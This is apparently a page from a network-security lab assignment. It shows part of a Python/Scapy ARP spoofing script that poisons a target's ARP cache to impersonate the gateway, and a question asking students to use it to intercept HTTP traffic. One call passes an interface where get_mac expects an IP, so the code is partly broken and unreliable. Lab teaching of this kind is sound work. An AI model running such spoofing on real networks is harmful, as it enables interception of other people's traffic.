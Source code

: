 ```
    ether_frame = Ether(dst=target_mac, src=get_mac(iface))
    
    # Combine the Ethernet frame and ARP response
    packet = ether_frame/arp_response
    
    return sendp(packet, iface=iface)

def get_mac(ip):
    """
    Returns the MAC address of the given IP.
    """
    # Create an ARP request packet to get the MAC of the IP
    arp_request = ARP(pdst=ip)
    broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
    packet = broadcast/arp_request

    # Send the packet and capture the response
    response = srp(packet, timeout=2, verbose=0)[0]
    return response[0][1].hwsrc

if __name__ == "__main__":
    target_ip = "192.168.1.2"    # Replace with your target IP
    spoof_ip = "192.168.1.1"    # Typically the gateway/router IP
    
    try:
        while True:
            # Trick target_ip into thinking we are spoof_ip
            spoof_arp(target_ip, spoof_ip)
            
            # Optionally: Trick spoof_ip into thinking we are target_ip
            # spoof_arp(spoof_ip, target_ip)
            
            time.sleep(2)
    except KeyboardInterrupt:
        print("\nARP spoofing stopped.")

```
[Your response goes here.]

Question 3.2:
Repeat Task 2, replacing Step 2’s arpspoof command with your Python code above. Include a screenshot of Host B’s HTTP response (i.e., payload), along with the corresponding packet headers from M’s perspective.

[Your response goes here.]
